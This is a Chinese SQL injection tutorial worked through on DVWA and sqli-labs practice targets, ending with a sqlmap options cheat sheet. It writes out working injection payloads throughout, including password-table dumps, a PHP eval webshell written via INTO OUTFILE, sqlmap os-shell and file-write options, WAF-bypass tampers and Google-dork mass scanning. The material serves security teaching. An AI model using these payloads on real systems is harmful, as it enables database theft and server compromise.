


# SQL注入

## 一、概述

在owasp年度top 10 安全问题中，注入高居榜首。SQL注入攻击指的是通过构建特殊的输入作为参数传入Web应用程序， 而这些输入大都是SQL语法里的一些组合，通过执行SQL语句进而执行攻击者所要的操作，其主要原因是程序没有细致地 过滤用户输入的数据，致使非法数据侵入系统。

1. 对于Web应用程序而言，用户核心数据存储在数据库中，例如MySQL、SQL Server、Oracle；
2. 通过SQL注入攻击，可以获取、修改、删除数据库信息，并且通过提权来控制Web服务器等其他操作；
3. SQL注入即攻击者通过构造特殊的SQL语句，入侵目标系统，致使后台数据库泄露数据的过程；
4. 因为SQL注入漏洞造成的严重危害性，所以常年稳居OWASP TOP10的榜首!

**SQL注入的危害：**

1、拖库导致用户数据泄漏；
2、危害web等应用的安全;
3、失去操作系统的控制权；
4、用户信息被非法买卖；
5、危害企业及国家的安全！

### 注释

mysql 数据库的注释的大概有以下几种

> \#
>
> -- （杠杠空格）
>
> /* … */
>
> /*! … */ 内联查询

## 二、information_schema

information_schema数据库中保存了MySQL服务器所有数据库的信息。如数据库名，数据库的表，表中的数据类型与访问权限等。再简单点，这台MySQL服务器上，到底有哪些数据库、各个数据库有哪些表，每张表的字段类型是什么，各个数据库要什么权限才能访问，等等信息都保存在这个库里。

- information_schema的表`schemata的列schema_name`记录了所有`数据库`的名字
- information_schema的表`tables中的列table_schema`记录了所有`数据库`的名字
- information_schema的表`tables中的列table_name`记录了所有`数据库的表`的名字
- information_schema的表`columns的列table_schema`记录了所有`数据库`的名字
- information_schema的表`columns的列table_name`记录了所有`数据库的表`的名字
- information_schema的表`columns的列column_name`记录了所有`数据库的表的列`的名字

如下图所示：

1、**schemata查看所有数据库名字**


2、**tables库名、表名**

3、**columns库名、表名、字段名**


## 三、手工注入各种姿势

### 1、基于错误的注入

错误注入的思路是通过构造特殊的sql语句，根据得到的错误信息，确认sql注入点； 通过数据库报错信息，也可以探测到数据库的类型和其他有用信息。 通过输入单引号，触发数据库异常，通过异常日志诊断数据库类型，例如这里是MySQL数据库

```sql
正常语句：SELECT first_name, last_name FROM users WHERE user_id = '1';
1
```


```sql
错误语句：SELECT first_name, last_name FROM users WHERE user_id = ''';
1
```


### 2、基于布尔的注入

布尔逻辑注入的思路是闭合SQL语句、构造or和and逻辑语句、注释多余的代码；

```sql
执行语句：SELECT first_name, last_name FROM users WHERE user_id = ' ' or 1=1 -- aaaa ';

id='a ' or 'a'='a'  -> a ' or 'a'='a
说明： 
第一个' 用于闭合前面的条件 or 1=1 为真的条件 -- 将注释后面的所有语句

```


### 3、基于union注入

UNION语句用于联合前面的SELECT查询语句，合并查询更多信息； 一般通过错误和布尔注入确认注入点之后，便开始通过union语句来获取有效信息

```sql
// 猜测数据列数 有多少个字段
' union select 1 -- ' ' union select 1,2 -- aaaa
' union select 1,2,3 -- ' ' union select 1,2,3,4 -- aaaa

// order by猜测数据列数
1' order by 1#
SELECT first_name, last_name FROM users WHERE user_id = '1' order by 1;
这条语句的意思是查询users表中user_id为1的数据并按第一字段排行。

SQL注入语句解析： 
mysql> select first_name,last_name from dvwa.users where user_id='' union select 1 -- aaaa 
mysql> select first_name,last_name from dvwa.users where user_id='' union select 1,2 -- aaaa

注意：使用union联合查询，所查询的字段数必须与前面查询的字段数保持一致。
1234567891011121314
```

输入 `1' order by 1 -- aaa`和 `1' order by 2 -- aaa`时都返回正常：

输入 `1' order by 3 -- aaa`返回错误：

由此可知，users表中只有两个字段，数据为两列。


```sql
//获得当前数据库及用户信息 
'union select version(), database() -- ' 
'union select user(), database() -- ' 
mysql> select first_name,last_name from dvwa.users where user_id=''union select version(), database() -- '' 
mysql> select first_name,last_name from dvwa.users where user_id=''union select user(), database() -- '' 

说明： 
version()  获得数据库版本信息 
database() 获得当前数据库名 
user()     获得当前用户名
 
//查询数据库中所有表 information_schema数据库是MySQL自带的，它提供了访问数据库元数据的方式； 元数据包括数据库名、表名、列数据类型、访问权限、字符集等基础信息。
 
SQL注入语句解析： mysql> select * from information_schema.TABLES\G
 
//查询所有库名 
'union select TABLE_SCHEMA, 1 from INFORMATION_SCHEMA.tables -- ' 
mysql> select first_name,last_name from dvwa.users where user_id=''union select TABLE_SCHEMA, 1 from INFORMATION_SCHEMA.tables -- ''

//查看所库中所有表名 
'union select table_name, 1 from INFORMATION_SCHEMA.tables -- ' 
mysql> select first_name,last_name from dvwa.users where user_id=''union select table_name,1 from INFORMATION_SCHEMA.tables -- ''
12345678910111213141516171819202122
```

所有库

1）查看当前库

```sql
注入语句：
' union select 1,database() -- aaaa

查询语句：
mysql> SELECT first_name, last_name FROM users WHERE user_id = '' union select 1,database() -- aaaa'
12345
```


2）查看当前库的表名

```sql
'union select table_name, 1 from INFORMATION_SCHEMA.tables where TABLE_SCHEMA='dvwa' -- '
1
```


可以查看到当前库有哪些表，这里以users表为例

3）查看表中的字段

```sql
'union select table_name, COLUMN_NAME from INFORMATION_SCHEMA.columns where TABLE_SCHEMA='dvwa' and table_name='users' -- '
1
```


4）查看用户名及密码

由以上查出

```sql
库名：dvwa
表名：users
字段：user  /   password
123
```

查询用户和密码

```sql
'union select user,password from dvwa.users -- '
1
```


### 4、基于时间的盲注

有些数据库对错误信息做了安全配置，使得无法通过以上方式探测到注入点，此时，通过设置sleep语句来探测注入点。

```sql
1' and sleep(10) -- aaa
1
```


根据浏览器状态判断sleep语句知否被带入到数据库中执行。

```sql
注入语句：
1' or sleep(2) -- aaa
1' and sleep(2) -- aaa

SQL注入语句解析：
mysql> select first_name,last_name from dvwa.users where user_id='1' and sleep(2) -- '
123456
```


### 5、宽字节注入

因为大多数的网站对于SQL注入都做了一定的方法，例如使用一些Mysql中转义的函数addslashes，mysql_real_escape_string，mysql_escape_string等(还有一种是magic_quote_gpc，不过PHP高版本已经移除此功能)。其实这些函数就是为了过滤用户输入的一些数据，对特殊的字符加上反斜杠“\”进行转义，所以在条件符合的情况下可利用宽字节注入绕过这些函数。

**查看PHP源码**

- mysql使用gbk编码
- php代码中对前端传来的参数经过check_addslashes后对预定义字符进行转义处理

定义和用法
addslashes() 函数返回在预定义字符之前添加反斜杠的字符串。

预定义字符是：

- 单引号（’） —> \’
- 双引号（"）—> \"
- 反斜杠（\）—> \\
- NULL
  提示：该函数可用于为存储在数据库中的字符串以及数据库查询语句准备字符串。

> 注释：
> 默认地，PHP 对所有的 GET、POST 和 COOKIE 数据自动运行 addslashes()。所以您不应对已转义过的字符串使用 addslashes()，因为这样会导致双层转义。遇到这种情况时可以使用函数 get_magic_quotes_gpc() 进行检测。


1）单引号试错
`http://localhost/sqli-labs-master/Less-33/?id=1'`
观察回显发现单引号前面加上了反斜杠，从而单引号被转义了

所以页面不会报错，导致无法判断是否存在注入点

2）绕过方式
在单引号的前面加上`%df`，单引号的url编码为`%27`
注入语句：`http://localhost/sqli-labs-master/Less-33/?id=1%df%27`

前端输入`%df%27`时首先经过`addslashes`函数转义变成了`%df%5c%27`（%5c是反斜杠)，之后在数据库查询前因为设置了GBK编码，在汉字编码范围内两个字节都会给重新编码为一个汉字。然后MySQL服务器就会对查询语句进行GBK编码把`%df%5c`转换成了汉字`運`，而单引号就逃逸了出来，从而造成了注入漏洞。

转换后：`http://localhost/sqli-labs-master/Less-33/?id=1%df%5c%27`
实际上就是将`%df和%5c`组合成一个新字符`運`，留下`%27`这个单引号，使其带入语句中执行。

### 6、参数加密注入

查看源码


```
http://localhost/sqli-labs-master/Less-66?id=2
http://localhost/sqli-labs-master/Less-66?id=Mg==
12
```


判断字段数


**order by判段该表中有三个字段**


### 7、cookie注入

要想基于cookie注入，首先需要判断目标网站是否支持从cookie获取参数


判断是否存在注入


### 8、二阶注入

所谓二阶注入是指已存储（数据库、文件）的用户输入被读取后再次进入到 SQL 查询语句中导致的注入。

二阶注入也是SQL注入的一种，与我们平时接触最多的一阶SQL注入相比利用门槛更高。普通的一阶SQL注入数据直接就进入到SQL查询中，而二阶SQL注入则是输入数据经处理后存储，然后取出数据，最后才进入到SQL查询。

事实上你在网上搜索到的SQL注入文章，大部分都可以归结为一阶SQL注入，因为这些例子涉及的事件均发生在单个HTTP请求和响应中，如下所示：

- 攻击者在HTTP请求中提交某种经过构思的输入。
- 应用处理输入，导致攻击者注入的SQL查询被执行。
- 如果可行的话，会直接向攻击者返回查询结果。

**二阶注入的流程如下：**

- 攻击者在HTTP请求中提交某种经过构思的输入。
- 应用存储该输入(通常保存在数据库中)以便后面使用并响应请求。
- 攻击者提交第二个(不同的)请求。
- 为处理第二个请求，应用会检索已经存储的输入并处理它，从而导致攻击者注入的SQL查询被执行。
- 如果可行的话，会在应用对第二个请求的响应中向攻击者返回查询结果。


类似于存储型XSS

### 9、HTTP请求头注入

常见http可能被污染的参数有这些

- User-agent 浏览器版本 （少）
- Referer 来源（少）
- X-Forwarded-For 获取ip（高）
- client_ip 获取ip（高）
- cookie 获取cookie值（高）
- host


使用工具：
火狐中的插件ModifyHeaders

## 四、sql注入流程

```
1. 判断是否有SQL注入漏洞； 
2. 判断操作系统、数据库和web应用的类型； 
3. 获取数据库信息，包括管理员信息及拖库； 
4. 加密信息破解，sqlmap可自动破解；
5. 提升权限，获得sql-shell、os-shell、登录应用后台；
```

### 自动化注入

**sqlmap**

Kali 已经预装了

```sh
sqlmap -h
```


测试注入点

```sh
自动判断回复
sqlmap -u "url" --batch    
加大级别 有原来的级别1变成5 风险也变成5
sqlmap -u "url" --batch  --level=5 --risk=5
```

测试注入，之前的dvwa需要登录，我们先测试不需要登录的


```sh
指定自动注入
sqlmap -u "http://192.168.82.101/cms/main?id=1&username=tom&pass=123" --batch  -p username
```


```sh
其他参数
获取所有数据库  --dbs
sqlmap -u "http://192.168.82.101/cms/main?id=1&username=tom&pass=123" --batch  -p username --dbs
--users 获取所有用户
--current-user 获取当前用户
--current-db 获取当前数据库
-D "database_name" --tables 获取数据中的所有表
-D "database_name" -T "table_name" --columns 获取表里的所有字段
--dump-all 下载整个数据库的数据
-D "database_name" -T "table_name" --dump  下载这张表
-D "database_name" -T "table_name" -C "userName，userPwd" --dump  下载这张表里的两个字段数据
```

获取cookie 相当于拿到你登陆的信息 绕过登陆页面 进行注入


##### 1、基本参数

```
--is-dba       // 当前用户权限
--dbs          // 所有数据库
--current-db   // 当前数据库
--users        // 所有数据库用户
--current-user // 当前数据库用户
--tables       // 表名
--columns      // 字段名
--dump         // 获取表中数据，包含列
--dump-all     // 转存DBMS数据库所有表项目
--level        // 测试等级(1-5)默认为1
--passwords    // 枚举所有用户密码
--roles        // 列出数据库管理员角色
--privileges   // 列出数据库管理员权限
--dbms  "mysql"  // 指定数据库类型

-D 指定数据库
-T 指定表
-C 指定列
--dbms='mysql' // 指定数据库类型

sqlmap -u "http://192.168.226.130:86/Less-1/?id=1" --schema(所有库+表) --batch(默认yes) --exclude-sysdbs(排除系统数据库)         // 列举数据库系统架构
123456789101112131415161718192021
```

读取数据库–>读表–>读列–>读内容

```
--current-db                                 // 当前数据库

--tables -D xycms(DatabaseName) --count      // 指定数据库列表名,并统计表中有多少数据

--columns -T manage_user(TableName) -D xycms // 指定表名列列名

--dump -C m_name,m_pwd -T manage_user(TableName) -D xycms // 指定列名列数据
1234567
```

##### 2、显示调试信息

```
-v 显示调试信息 有7个级别

0、只显示python错误以及严重的信息
1、同时显示基本信息和警告信息(默认)
2、同时显示debug信息
3、同时显示注入的payload
4、同时显示http请求
5、同时显示http响应头
6、同时显示http响应页面
123456789
```

##### 3、风险等级

```
参数：--risk

共有四个风险等级
1、会测试大部分测试语句(默认)
2、会增加基于事件的测试语句
3、会增加OR语句的sql注入测试
123456
```

##### 4、批量测试多个注入点

```
sqlmap -m c:\url.txt
sqlmap -m c:\url.txt --batch
12
```

##### 5、获取http请求注入

burpsite抓包

```
参数：-r

sqlmap可以从一个文本文件中获取http请求，这样可以跳过设置一些其他参数(比如cookie、post数据)

sqlmap -r c:\request.txt

常用：post/搜索注入/http头注入/登陆后的注入点
1234567
```

##### 6、处理Google搜索结果

边采集边检测

```
参数：-g

sqlmap可以测试注入Google的搜索结果中的GET参数(只测试100个结果)

sqlmap -g "inurl:php?id="
12345
```

##### 7、以POST方式提交参数

```
参数：--data

把数据以post方式提交

sqlmap -u "http://192.168.226.130:86/login.php" --data "username=123&password=123"
12345
```

##### 8、指定参数连接符

```
参数：--param-del

当GET或POST的数据需要用其他字符分割测试参数的时候需要用到此参数

sqlmap -u "http://192.168.226.130:86/login.php" --data "username=123;password=123" --params-del=";"
12345
```

##### 9、cookie注入

```
参数：--cookie

sqlmap -u "http://192.168.226.130:8009/shownews.asp" --cookie "id=9" --table --level 2

sqlmap -u "http://192.168.226.130:8009/shownews.asp?id=9" --cookie "cookie值" 

前提是服务器接受cookie传递参数
1234567
```

##### 10、referer/headers/proxy

```
--referer "http://url" 当--level参数设定为3或3以上时候会尝试对referer注入

--headers "client-ip:1.1.1.1"  --level 3

--proxy http://ip:prot
12345
```

##### 11、时间控制

```
--delay
可以设定两个HTTP(s)请求间的延迟，设定为0.5的时候是半秒，默认是美欧延迟的。

--timeout
可以设定一个HTTP(S)请求超过多久判定为超时，10.5表示19.5秒，默认是30秒。

--retries
当HTTP(S)超时时，可以设定重新尝试连接次数，默认是3次。
12345678
```

##### 12、绕过策略

有的web应用程序会在你多次访问错误的请求时屏蔽掉你以后的所有请求，这样在sqlmap进行探测或者注入的时候可能造成错误请求而触发这个策略，导致以后无法进行。

```
--safe-url
提供一个安全不错误的连接，每个一段时间都会去访问一下。

--safe-freq
提供一个安全不错误的连接，每次测试请求之后都会在访问一遍安全连接。
12345
```

##### 13、手动指定测试参数

sqlmap默认测试所有的GET和POST参数，当–level的值大于或等于2的时候也会探测HTTP Cookie头的值，当大于等于3的时候也会测试Use-Agent和HTTP Referer头的值，但是你可以手动用-p指定想要测试的参数。

```
-p "id=123"  
一般适用多个参数
12
```

##### 14、指定参数前后闭合字符

有些环境中，需要在注入的payload的前面或后面加一些字符，来保证payload的正常执行。

例如：

```sql
$query="select * from users where id=('$GET['id']') limit 0,1";
闭合单引号和括号

index.php?id=123') and 1=1 ('
1234
```

这时就需要用`--prefix`和`--suffix`参数了

sqlmap -u “http://192.168.226.130:8009/shownews.asp?id=9” -p id --prefix “`')`” --suffix “`and ('1=1`”

##### 15、指定使用哪种探测技术

默认情况下会使用所有方式进行探测

```
--technique=U   单个
--technique=UEB 多个

B:Boolean-based blind SQL injection（布尔型注入）
E:Error-based SQL injection（报错型注入）
U:UNION query SQL injection（可联合查询注入）
S:Stacked queries SQL injection（可多语句查询注入）
T:Time-based blind SQL injection（基于时间延迟注入）
12345678
```

##### 16、UNION查询指定参数

默认情况下sqlmap测试UNION查询注入会测试1-10个字段数，当–level为5的时候它会增加测试到50个字段数。设定–union-cols的值应该是一段证书，如：12-16，是测试12-16个字段数。

```
--union-cols
1
```

默认情况下sqlmap针对UNION查询的注入会使用NULL字符，但是有些情况下会造成页面返回失败，而一个随机整数是成功的，这时可以用–union-char指定UNION查询的字符

```
--union-char "null"

union select null,null,null,null
123
```

##### 17、二阶注入

注入点和回显不在同一个页面，这时候就需要你指定到哪个页面获取响应判断真假。

```
--second-order "回显页面的url地址"
1
```

##### 18、搜索指定库/表/列

–search可以用来寻找特定的数据库名，所有数据库中的特定表命，所有数据库表中的特定字段。

```
-C后跟列名，将会在所有数据库表中搜索指定的列名
-T后跟表名，将会在所有数据库中搜索指定的表名
-D后跟库名，将会在所有数据库中搜索指定的库名

sqlmap -u "http://192.168.226.130:8009/shownews.asp?id=27" --search -C "pwd" -D xycms 可以选择严格匹配或模糊匹配
12345
```

##### 19、–udf-inject/–shared-lib

你可以通过编译MySQL注入你自定义的函数(UDFs)或PostgreSQL在windows中共享库，DLL，或者Liunx/Unix中共享对象，sqlmap将会问你一些问题，上传到服务器数据库自定义函数，然后根据你的选择执行他们，当你注入完成后，sqlmap将会移除它们。

##### 20、日志文件读取与写入

```
-s
sqlmap对每一个目标都会在output路径下自动生成一个SQLite文件，如果用户想指定读取的文件路径就可以使用这个参数。

-t
这个参数需要跟一个文本文件或文本路径，sqlmap会把HTTP(s)请求与响应的日志保存到那里。
12345
```

##### 21、默认yes

```
--batch

不需要用户输入，将会使用sqlmap提示的默认值一直运行下去。
123
```

##### 22、编码设置

```
--charset

强制使用字符编码
不适用sqlmap自动识别的(如HTTP头中的content-type)字符编码，强制指定字符编码，如：--charset=GBK
1234
```

##### 23、清除缓存

```
--flush-session
1
```

##### 24、编码转换

```
--hex
有时候字符编码的问题，可能导致数据丢失，可以使用hex函数来避免

sqlmap -u "http://192.168.226.130:8009/shownews.asp?id=27" --banner --hex -v 3 --parse-errors
1234
```

##### 25、指定文件保存路径

```
--output-dir

sqlmap默认把session文件跟结果文件保存在output文件夹下，用此参数可自定义输出路径，例如：--output-dir=/tmp。（从响应中获取DBMS的错误信息）
123
```

##### 26、查看DBMS报错信息

```
--parse-errors

有时目标没有关闭DBMS的报错，当数据库语句错误时，会输出错误语句，该参数会显示出错误信息。
123
```

##### 27、批量url注入，快速判断注入点

```
--smart

有时对目标非常多的url进行测试，为了节省时间，只对能够快速判断注入点进行注入，可以使用此参数。

1234
```

##### 28、移动端访问服务器

```
--mobile

有时服务器只接收移动端的访问，此时可以设定一个手机的user-agent
123
```

##### 29、WAF识别

```
--identify-waf

sqlmap可以尝试找出WAF/IPS/IDS保护，方便用户做出绕过方式，目前大概支持50多种产品的识别。

--check-waf

WAF/IPS/IDS保护可能会对sqlmap造成很大的困扰，如果怀疑目标有此防护的话，可以使用此参数来测试。sqlmap将会使用一个不存在的参数来注入测试。
1234567
```

##### 30、暴力破解表名

```
参数：--common-tables

当使用--tables无法获取到数据库的表时，可以使用此参数。
通常是如下情况：
1、MySQL数据库版本小于5.0，没有information_schema表。
2、数据库是Microssoft Access,系统表MSysObjects是不可读的(默认)。
3、当前用户没有权限读取系统中保存数据结构的表的权限。

暴力破解表在txt/common-tables.txt文件中，可添加。
xx --common-tables -D testdb
12345678910
```

##### 31、暴力破解列名

```
--common-columns

xx --common-columns -T text -D testdb
123
```

##### 32、伪静态注入

```
注入点：http://xxxxxx/index/view/id/40.html

sqlmap -u "http://xxxxxx/index/view/id/40*.html"
123
```

##### 33、延迟注入

```
--time-sec
1
```

##### 34、base64编码注入

```
sqlmap -u http://xxx/index.php?tel=LTEnlG9lskchdi --tamper base64encode.py -dbs
1
```

##### 35、执行SQL语句

```
--sql-query="select @@version"  执行单条语句  
--sql-shell   执行多条语句  
12
```

##### 36、文件读写

```
--file-read

从数据库服务器中读取文件
当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户权限使用特定的函数，读取的文件可以是本地文件也可以是二进制文件。

--file-read="c:\inetpub\wwwroot\msyql-php\1.php"
123456
```

##### 37、文件上传

```
--file-write
--file-dest

--file-write="c:\1.php" --file-dest="/var/www/html/x.php"
1234
```

##### 38、命令执行

```
--os-cmd
--os-shell
默认会上传一个任意文件上传后门
123
```

##### 39、WAF绕过

```
注入点：http://xxx.news.php?id=1

sqlmap -u "http://xxx.news.php?id=1" -v 3 --dbs --batch --tamper "space2morehash.py" 
```


 

## **sqli-labs题库**

下载sqli-labs

把文件夹放进phpstudy

访问，点击set reset database

根目录修改数据库密码 db-creds.inc


### **Less-01**

> **字符型注入**
>
> **单引号**
>
> **?id=1**
>
> **?id=1' and 1=2 union select 1,version(),3** **--+**

### **Less-02**

> **数字型注入**
>
> **?id=-2 union select 1,2,version()**

 

### **Less-03**

> **字符型注入**
>
> **near ''****1'****')** **LIMIT 0,1' at line 1**
>
> **')**
>
> **?id=1') and 1=2 union select 1,2,version()--+**
>
>  

### **Less-04**

> **字符型注入**
>
> **")**
>
> **?id=2") and 1=2 union select 1,2,version()--+**

### **Less-05**

> **没有回显，有报错**
>
> **字符型注入**
>
> **单引号**
>
> **?id=3' and updatexml(1,concat(0x5e,version(),0x5e),1)--+**

### **Less-06**

> **没有回显，有报错**
>
> **字符型注入**
>
> **"**
>
> **?id=1" and updatexml(1,concat(0x5e,****(select version())****,0x5e),1)--+**

### **Less-07**

> **没有回显，没有报错**
>
> **经过代码审计**
>
> **字符型注入**
>
> **'))**
>
> **?id=2')) union select 1,"<?php@eval(\$_REQUEST[777])?>",3 into outfile "c:\\phpstudy\\www\\1.php"--+**

### **Less-08**

**没有回显，没有报错，有布尔类型状态**

**字符型注入**

**'**

**布尔盲注**

**半自动化注入**

**工具：****bp**

*******得到数据库名长度**

**?id=2' and length(database())=2 --+**

**抓包**


 

**选择字典**

**start attack**


 

**得到数据库名的长度** **8**

 

*******获取数据库名**

**?id=2' and ascii(substr(database(),1,1))=1--+**


 

**字典**

**第一个变量****1-8**

**第二个变量****1-128**

**start attack**


 

### **Less-09**

**字符型注入，单引号**

**没有回显，没有报错，没有布尔类型状态，有延时**

**半自动化注入**

*******获取数据库长度**

**?id=1' and if(length(database())=1,sleep(5),1)--+**

**抓包**

**添加变量**


 

**字典** **0-9**


 

*******获取数据库名**

 

**抓包**

****

 

**字典**

**变量****1****：****1-8**

**变量****2****：****1-128**


 

**获取成功**

 

